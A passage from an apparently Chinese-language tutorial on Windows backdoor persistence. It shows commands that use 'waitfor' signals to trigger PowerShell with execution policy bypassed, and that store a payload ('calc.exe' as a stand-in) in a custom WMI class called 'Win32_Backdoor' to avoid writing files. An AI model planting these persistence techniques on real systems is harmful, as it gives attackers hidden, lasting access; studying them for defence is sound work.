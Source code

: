 转义字符&在powershell中要用`&表示

**开启等待模式：**

cmd：

```
waitfor persist1 && powershell -executionpolicy bypass -file c:\test\1.ps1 
```

**发送信号：**

cmd：

```
waitfor /s 127.0.0.1 /si persist1 
```

#### 思路2：

不在目标系统保存文件

这里使用一个之前在《WMI backdoor》中介绍过的技巧，将payload保存在WMI类中，进行读取使用

存储payload：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe")
$StaticClass.Put() 
```

读取payload：

```
([WmiClass] 'Win32_Backdoor').Properties['Code'].Value 
```

以上操作如下图

![image](img/301a8233e68e911bbb059b62bd7db292.png)
